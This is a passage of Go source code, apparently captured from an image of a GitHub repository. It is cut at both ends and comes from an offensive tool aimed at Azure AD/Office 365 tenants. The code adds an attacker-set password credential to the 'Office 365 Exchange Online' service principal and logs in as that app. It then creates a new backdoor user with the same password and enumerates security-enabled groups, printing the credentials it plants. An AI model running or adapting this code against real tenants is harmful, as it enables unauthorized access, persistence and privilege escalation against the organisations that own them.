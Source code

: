 ```go
        }
         if SPNs.Value[x].AppDisplayName == "Office 365 Exchange Online"{
            //fmt.Println(SPNs.Value[x].AppDisplayName)
            ExchangeFound = true
            fmt.Println("[*] Found Exchange Online App")
            fmt.Println("[*] Attempting to add Password Credential")
            ExchangeAppObjId := SPNs.Value[x].ObjectID
            ExchangeAppId := SPNs.Value[x].AppID
            fmt.Println("[*] Found Obj ID")
            fmt.Println(ExchangeAppObjId)
            fmt.Println("[*] Found App ID")
            fmt.Println(ExchangeAppId)
            var NewCredsToAddExchange PasswordCredentials
            NewCredsToAddExchange.StartDate = now_t
            NewCredsToAddExchange.EndDate = then_t
            NewCredsToAddExchange.Value = pwndpass
            SPNs.Value[x].PasswordCredentialss = append(SPNs.Value[x].PasswordCredentialss,NewCredsToAddExchange)
            Ready2PostPassWordsExchange := make(map[string]interface{})
            Ready2PostPassWordsExchange["passwordCredentials"] = SPNs.Value[x].PasswordCredentialss
            AddPassResultExchange := AddPasswordToSP(authToken,Ready2PostPassWordsExchange,ExchangeAppObjId,TenantId)
            if AddPassResultExchange == "error" {
                fmt.Println("[*] Error Adding PasswordCredential To Office 365 Exchange Online App")
                fmt.Println("[*] Exiting....")
                os.Exit(2)
            }else{
                fmt.Println("[*] Successfully Added PasswordCredentials To Office 365 Exchange Online App")
                fmt.Printf("[*] PasswordCredentials :=> %s : %s\n",ExchangeAppId,NewCredsToAddExchange.Value)
            }
            fmt.Printf("[*] Attempting To Login As The Office 365 Exchange Online Application...\n")
            ExchangeAppIdGlobal = SPNs.Value[x].AppID
            ExchangeAuthTokenStruct = authAsSPN("https://graph.windows.net",SPNs.Value[x].AppID,NewCredsToAddExchange.Value.(string),TenantId)

        }
    }
    if ExchangeAuthTokenStruct.AccessToken != "" && O365AuthTokenStruct.AccessToken != "" {
        fmt.Println("[*] Have Auth Tokens For Both Apps...")
    } else {
        fmt.Println("[*] Do Not Have Auth Tokens For Both Apps...Something Went Wrong Exiting...")
        os.Exit(2)
    }
    
    fmt.Println("[*] Creating User Via O365 App...")
    NewUserResult := CreateUser(O365AuthTokenStruct.AccessToken,TenantId,DirectoryName[1],*addedUserptr)
    NewUserObjId := NewUserResult.ObjectID
    fmt.Printf("[*] Successfully Created The Following User: %s@%s Pass: %s\n",*addedUserptr,DirectoryName[1],pwndpass)
    fmt.Println("[*] Using Exchange Online App To Enumerate Groups...")
    EnumGrpResult := EnumerateGroups(ExchangeAuthTokenStruct.AccessToken,TenantId)
    var GrpObjMap = make(map[string]string)
    for x :=  range EnumGrpResult.Value_Grp{
        if EnumGrpResult.Value_Grp[x].SecurityEnabled_Grp == true{
            GrpObjMap[EnumGrpResult.Value_Grp[x].DisplayName_Grp] = EnumGrpResult.Value_Grp[x].ObjectID_Grp
        }
    }
```